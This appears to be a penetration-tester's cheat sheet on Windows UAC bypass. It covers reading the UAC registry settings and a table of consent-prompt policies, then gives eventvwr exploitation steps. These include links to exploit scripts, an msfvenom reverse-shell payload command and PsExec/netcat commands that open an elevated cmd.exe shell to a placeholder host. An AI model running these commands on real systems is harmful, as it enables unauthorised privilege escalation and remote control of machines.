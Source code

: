 # UAC bypass

## Check configuration

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

### Registries

* `ConsentPromptBehaviorAdmin:`  UAC configuration \[0x0 - 0x5]
* `EnableLUA:` UAC enabled  \[0x0 / 0x1]
* `PromptOnSecureDesktop:` show screen prompt \[0x0 / 0x1]

#### Consent prompt behavior policies

| DWORD      | **Policy**                                                | **Description**                                                                                                                                                                                                                                                            |
| ---------- | --------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 0x00000000 | Elevate without prompting                                 | Allows privileged accounts to perform an operation that requires elevation without requiring consent or credentials.                                                                                                                                                       |
| 0x00000001 | Prompt for credentials on the secure desktop              | When an operation requires elevation of privilege, the user is prompted on the secure desktop to enter a privileged (ex: administrator) user name and password. If the user enters valid credentials, the operation continues with the user's highest available privilege. |
| 0x00000002 | Prompt for consent on the secure desktop                  | When an operation requires elevation of privilege, the user is prompted on the secure desktop to select either Yes or No. If the user selects Yes, the operation continues with the user's highest available privilege.                                                    |
| 0x00000003 | Prompt for credentials                                    | When an operation requires elevation of privilege, the user is prompted to enter an administrator user name and password. If the user enters valid credentials, the operation continues with the applicable privilege.                                                     |
| 0x00000004 | Prompt for consent                                        | When an operation requires elevation of privilege, the user is prompted to select either Yes or No. If the user selects Yes, the operation continues with the user's highest available privilege.                                                                          |
| 0x00000005 | Prompt for consent for non-Windows binaries **(Default)** | When an operation for a non-Microsoft application requires elevation of privilege, the user is prompted on the secure desktop to select either Yes or No. If the user selects Yes, the operation continues with the user's highest available privilege.                    |

## Eventvwr exploitation

### Requirements

* Windows 7, 8.1, 10
* `PromptOnSecureDesktop` == 5
* `eventvwr.exe` must exist and have self-elevating privileges

### Exploitation

#### Exploit scripts

* [Powershell script](https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1)
* [C file](https://github.com/turbo/zero2hero/blob/master/main.c). Don't forget to uncomment the `strcat` and `GetCurrentDirectory` commands and replace foobar.exe with your payload
* **exploit/windows/local/bypassuac\_eventvwr** Metasploit module

#### Payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai > payload.exe
```

### Create elevated reverse shell

```
PsExec64.exe -i -accepteula -d -s ".\nc.exe <ip> <port> -e cmd.exe"
PsExec64.exe \\<machine> -accepteula -u <machine>\<user> -p <pass> ".\nc.exe <ip> <port> -e cmd.exe"
```

